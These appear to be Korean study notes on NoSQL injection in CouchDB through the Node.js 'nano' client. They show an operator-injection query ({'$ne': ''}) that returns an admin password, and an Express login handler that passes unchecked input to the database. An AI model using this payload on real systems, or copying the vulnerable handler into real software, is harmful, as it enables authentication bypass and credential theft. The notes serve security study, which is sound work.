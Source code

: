         ```sql
        // 정상적인 요청
        > require('nano')('http://{username}:{password}@localhost:5984').use('users').find({'selector': {'_id': 'guest', 'upw': 'guest'}}, function(err, result){ console.log('err: ', err, ',result: ', result) })
        /*
        undefined
        err:  null ,result:  { docs:
           [ { _id: 'guest',
               _rev: '1-22a458e50cf189b17d50eeb295231896',
               upw: 'guest' } ],
          bookmark:
           'g1AAAAA6eJzLYWBgYMpgSmHgKy5JLCrJTq2MT8lPzkzJBYqzppemFpeAJDlgkgjhLADZAxEP',
          warning:
           'No matching index found, create an index to optimize query time.' }
        */
        
        // 연산자를 포함한 공격 쿼리 전송
        > require('nano')('http://{username}:{password}@localhost:5984').use('users').find({'selector': {'_id': 'admin', 'upw': {'$ne': ''}}}, function(err, result){ console.log('err: ', err, ',result: ', result) })
        /*
        undefined
        err:  null ,result:  { docs:
           [ { _id: 'admin',
               _rev: '2-142ddb6e06fd298e86fa54f9b3b9d7f2',
               upw: 'secretpassword' } ],
          bookmark:
           'g1AAAAA6eJzLYWBgYMpgSmHgKy5JLCrJTq2MT8lPzkzJBYqzJqbkZuaBJDlgkgjhLADVNBDR',
          warning:
           'No matching index found, create an index to optimize query time.' }
        */
        ```
        
- 기타 공격 방법
    
    ```sql
    const express = require('express');
    const session = require('express-session');
    const app = express();
    app.use(express.json());
    app.use(express.urlencoded({extended: false}));
    app.use(session({'secret': 'secret'}));
    const nano = require('nano')('http://{username}:{password}@localhost:5984');
    const users = nano.db.use('users');
    // { _id: 'admin', _rev: '1-22a458e50cf189b17d50eeb295231896', upw: '**secret**' }
    app.post('/auth', function(req, res) {
        users.get(req.body.uid, function(err, result) {
            if (err) {
                res.send('error');
                return;
            }
            if (result.upw === req.body.upw) {
                req.session.auth = true;
                res.send('success');
            } else {
                res.send('fail');
            }
        });
    });
    const server = app.listen(3000, function() {
        console.log('app.listen');
    });
    ```
    